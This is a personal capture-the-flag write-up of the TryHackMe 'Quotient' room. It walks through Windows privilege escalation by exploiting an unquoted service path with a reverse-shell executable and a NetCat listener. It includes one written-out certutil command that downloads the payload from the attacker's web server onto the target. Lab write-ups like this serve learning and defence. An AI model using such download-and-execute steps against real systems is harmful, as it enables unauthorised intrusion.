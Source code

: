 ### Introduction
Link: https://tryhackme.com/room/quotient#
Created by: ben, JohnHammond, cmnatic, NightWolf, timtaylor
* * *
### Connecting
Pinging the IP address for this machine does not seem to resolve anything. I had to briefly look at another write-up to see if anyone else had issues. It seems RDP still works so I proceeded to simply connect to it and it worked.

![3cc90c64c1d1ac43d1aef70c73009f4e.png](../_resources/3cc90c64c1d1ac43d1aef70c73009f4e.png)

<p>
  <src="/./_resources/3cc90c64c1d1ac43d1aef70c73009f4e.png">
</p>
  
* * *
### Reconnaissance
Right away we can tell that this server is an AWS Instance being hosted in **eu-west-1b** and is a t2.medium EC2 instance. Not crucially important, but interesting to point out.

Let's see what kind of permissions we have as the user "Sage".

![658494285c75fb47f7e816ce2fc218a1.png](../_resources/658494285c75fb47f7e816ce2fc218a1.png)

It looks like we're not very special and only have general access.

![3dadeb6debd6380cdab64b97820bbbaa.png](../_resources/3dadeb6debd6380cdab64b97820bbbaa.png)

Let's have a look around and see what is on this computer. So far the only thing that really stands out is the folder **windows nt**. Normally the **W** would be capitalized, same with **NT**. Not sure why this was deliberately changed, but we will keep it in mind if anything else comes up.

![a0b61d9dd05b25eb245f52e170b292a1.png](../_resources/a0b61d9dd05b25eb245f52e170b292a1.png)

Nothing else stands out withing the folders, maybe we can see what services are running on the machine.

Everything looks normal except for one. It has no description and is misspelled.

![95562cfa26ee77ee2229ff38837c2efb.png](../_resources/95562cfa26ee77ee2229ff38837c2efb.png)

Let's investigate.

![0ada677f68c1d969a7520527e7a983c4.png](../_resources/0ada677f68c1d969a7520527e7a983c4.png)

At this point, I was a bit stuck and not sure how to proceed. Clearly there is something about this service that is meant to be exploited. 

I am learning that it is ok to be stuck, part of PenTesting is research. You are not going to know everything for every engagement and it is important to be able to find the answers we need on an as needed basis.

With the help of Google, I came across this article which seems to fit the exact situation we are in.

**Link:** https://vk9-sec.com/privilege-escalation-unquoted-service-path-windows/#:~:text=When%20a%20service%20is%20created,of%20the%20time%20it%20is).

### Exploitation

So we are dealing with an **Unquoted Service Path**, now the name of the room makes a little more sense.

According to the article above, we should create a payload and drop it into that file path. So let's create that payload.

![69003b3b6fa29e0ca5cd9b402cc1815c.png](../_resources/69003b3b6fa29e0ca5cd9b402cc1815c.png)

Now we need to start a web server on our Kali machine.

![7eed70e4cd3a5000fb4542483de44f67.png](../_resources/7eed70e4cd3a5000fb4542483de44f67.png)

And we need to download the executable from our target machine.

![e2c62b94d766594d957550f4eabbe889.png](../_resources/e2c62b94d766594d957550f4eabbe889.png)

Now, we need to have the machine run that service, but we lack the permissions to start/stop them, so a reboot will be required.

But first, gotta make sure NetCat is listening.

![e57fff9a846ab29bc1461d3146275646.png](../_resources/e57fff9a846ab29bc1461d3146275646.png)

Now, the wait begins...
...
...
...
...
Still nothing, maybe there is an issue with the server?
Server is back up, IP is the same, and the revshell.exe is still there. What went wrong?

Well, as it turns out, it's the name of the .exe. I did not read the article carefully and missed the part where it said that the .exe file needs to be named something similar to what is in the service path, .ie, Devservice.exe.

Let's start over real quick.

![d65e82940e2f358055650fc96fb76da2.png](../_resources/d65e82940e2f358055650fc96fb76da2.png)

That's better.
Now we'll download this on the target machine.

`certutil -urlcache -split -f “http://10.13.27.44:9999/Devservice.exe” Devservice.exe`

And reboot the target machine.
Now we once again wait on NetCat.

...

Got it...

![f314cea54ab81f3928c495244f3b2faa.png](../_resources/f314cea54ab81f3928c495244f3b2faa.png)
* * *
### Post-Exploitation

Time to search for that flag.txt file.

And it looks like it's right on the Admin Desktop.

![b9983bdb900bafc38d417afd67737caa.png](../_resources/b9983bdb900bafc38d417afd67737caa.png)
* * *
### Lessons Learned

READ!!!

I tend to skimp documentation to get to the good stuff, I was in a hurry to try out the exploit without taking my time to actually read how it works. But as they say, failure is a better teacher than success. This will be something that sticks with me.
